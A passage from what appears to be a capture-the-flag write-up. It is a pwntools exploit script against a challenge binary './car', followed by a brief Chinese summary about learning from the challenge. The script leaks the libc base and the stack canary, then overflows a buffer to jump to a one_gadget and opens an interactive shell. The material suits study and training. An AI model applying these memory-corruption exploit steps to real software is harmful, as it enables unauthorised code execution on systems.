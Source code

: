 ```python
	p.sendlineafter(": ",str(idx))
context.log_level='debug'
context.arch='amd64'
libc=ELF('./libc.so')
p=process("./car",env={"LD_PRELOAD":"./libc.so"})
p.sendlineafter(": ","n132")
p.sendlineafter(": ","n132")
add(0,0x200)
add(1,0x200)
add(2,0x200)

edit(0,0x38,"A"*0x30)
p.readuntil("A"*0x30)
base=u64(p.readuntil(" g")[:-2]+'\0\0')-(0x7ffff7dd07e3-0x7ffff7a21000)
cmd(3)
edit(1,0xf9,"A"*0xf9)
p.readuntil("A"*0xf9)
canary=u64('\0'+p.read(7))
cmd(2)

p.sendlineafter(": ",str(0xf9))
p.sendafter(": ","A"*0xf8+'\x00')
cmd(3)

one=0x4161a+base
gdb.attach(p,'b *0x00055555555586E')
edit(2,0x188,"A"*0xf8+p64(canary)+p64(0xdeadbeef)+p64(one)+'\x00'*0x78)
log.warning(hex(base))
log.warning(hex(canary))
cmd(3)
p.interactive()
```

# summary
因为最近要期末了所以总结地比较匆忙.在师傅们那边学到了不少...积累了实战经验..
出题师傅出的是非常好的有非常多可以玩的东西.这题patch过程中也学到了不少...之后再总结一篇patch相关的吧..